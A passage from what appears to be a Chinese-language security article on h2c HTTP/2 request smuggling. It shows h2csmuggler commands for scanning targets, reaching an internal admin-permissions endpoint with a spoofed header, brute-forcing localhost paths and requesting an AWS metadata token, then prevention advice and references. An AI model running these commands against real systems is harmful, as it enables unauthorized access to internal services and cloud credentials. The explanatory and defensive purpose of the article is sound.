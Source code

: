 扫描：

```
$ python3 h2csmuggler.py --scan-list urls.txt --threads 5
```

获取内部端点：

```
$ python3 h2csmuggler.py -x https://edgeserver -X POST -d '`{`"user":128457 "role": "admin"`}`' -H "Content-Type: application/json" -H "X-SYSTEM-USER: true" http://backend/api/internal/user/permissions
```

暴破端点：

```
$ python3 h2csmuggler.py -x https://edgeserver -i dirs.txt http://localhost/
```

这个过程中使用了HTTP/2的多路复用。复用是HTTP/2的主要功能，这意味着可以同时请求多个资源，可以理解为`Connection: keep-alive , pipeline`的改进版。

获取AWS 源数据 api:

```
$ python3 h2csmuggler.py -x https://edgeserver -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" http://169.254.169.254/latest/api/token`

```

更多使用细节参见：[https://github.com/BishopFox/h2csmuggler](https://github.com/BishopFox/h2csmuggler)



## 0x05 如何预防

对于HTTP请求走私/ WebSocket连接走私可能有多种应对对策，但从原则上讲，按照RFC文档中的说明，限制在TLS连接中使用`h2c`升级应该是最为有效的方法。当然，如果可能的话，也可以通过限制代理服务器中传递标头，仅处理由服务使用的标头来减小风险。

我个人认为，重要的是要防止使用未使用的标头，限制可以查看其他主机（例如host，x-forward-for等）的标头，以使私有路径无法被直接访问。与所有走私活动一样，防护方了解每一步消息传递的差异比依靠单纯补丁更有预防效果。对于这类通过请求走私或请求伪造攻击进行的任意用户控制的请求，应当维持纵深防御策略，减少架构中走私标头的重要性，在后端识别和拒绝可疑请求，才能有助于减小这类攻击的影响。



## 参考文献

[https://github.com/BishopFox/h2csmuggler](https://github.com/BishopFox/h2csmuggler)

[https://www.hahwul.com/2019/10/30/websocket-connection-smuggling/](https://www.hahwul.com/2019/10/30/websocket-connection-smuggling/)

[https://zh.wikipedia.org/wiki/HTTP/2](https://zh.wikipedia.org/wiki/HTTP/2)

[https://tools.ietf.org/html/rfc7540](https://tools.ietf.org/html/rfc7540)

[https://tools.ietf.org/html/rfc7301](https://tools.ietf.org/html/rfc7301)

[https://www.iana.org/assignments/tls-extensiontype-values/tls-extensiontype-values.xhtml#alpn-protocol-ids](https://www.iana.org/assignments/tls-extensiontype-values/tls-extensiontype-values.xhtml#alpn-protocol-ids)

[http://vlambda.com/wz_7iw9mXKwx3W.html](http://vlambda.com/wz_7iw9mXKwx3W.html)
